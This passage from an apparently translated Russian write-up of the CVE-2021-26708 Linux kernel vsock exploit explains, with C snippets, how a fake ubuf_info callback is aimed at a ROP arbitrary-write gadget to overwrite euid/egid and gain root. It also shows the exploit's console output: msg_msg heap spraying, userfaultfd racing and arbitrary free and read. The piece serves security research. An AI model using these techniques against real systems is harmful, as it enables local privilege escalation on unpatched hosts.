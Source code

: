         uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET);

skb_shared_info находится в данных инъекции точно по смещению SKB_SHINFO_OFFSET, которое составляет 3776 байт. Указатель skb_shared_info.destructor_arg хранит адрес struct ubuf_info. Поскольку адрес ядра атакуемого sk_buff известен, поддельный ubuf_info может быть создан в MY_UINFO_OFFSET в сетевом буфере. Ниже приведен макет допустимой полезной нагрузки:

![](T0185ccbf9f025c74da.png "T0185ccbf9f025c74da.png")

Давайте поговорим о обратном вызове destructor_arg:

     /*
         * A single ROP gadget for arbitrary write:
         *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
         * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
         */
        uinfo_p->callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
        uinfo_p->desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
        uinfo_p->desc = uinfo_p->desc - 1; /* rsi value 1 should not get into euid */

Поскольку в vmlinuz-5.10.11-200.fc33.x86_64 я не смог найти устройство, которое отвечало бы моим потребностям, я исследовал и сконструировал его сам.

Указатель функции обратного вызова хранит адрес гаджета ROP, RDI хранит первый параметр функции обратного вызова, который является адресом самого ubuf_info, а RDI + 8 указывает на ubuf_info.desc. гаджет перемещает ubuf_info.desc в RDX. Теперь RDX содержит эффективный идентификатор пользователя и адрес идентификатора группы минус один байт. Этот байт очень важен: когда гаджет записывает сообщение 1 от RSI в память, на которую указывает RDX, эффективные uid и gid будут перезаписаны нулем. Повторяйте тот же процесс, пока привилегии не будут повышены до root. Выходной поток всего процесса выглядит следующим образом:

    [a13x@localhost ~]$ ./vsock_pwn

    =================================================
    ==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
    =================================================

    [+] begin as: uid=1000, euid=1000
    [+] we have 2 CPUs for racing
    [+] getting ready...
    [+] remove old files for ftok()
    [+] spray_data at 0x7f0d9111d000
    [+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
    [+] fault_handler for uffd 38 is ready

    [+] stage I: collect good msg_msg locations
    [+] go racing, show wins:
        save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
        save msg_msg ffff9125c25a4640 in msq 12 in slot 1
        save msg_msg ffff9125c25a4780 in msq 22 in slot 2
        save msg_msg ffff9125c3668a40 in msq 78 in slot 3

    [+] stage II: arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4d00
        kaddr for arb read: ffff9125c2035300
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
    [+] go racing, show wins:
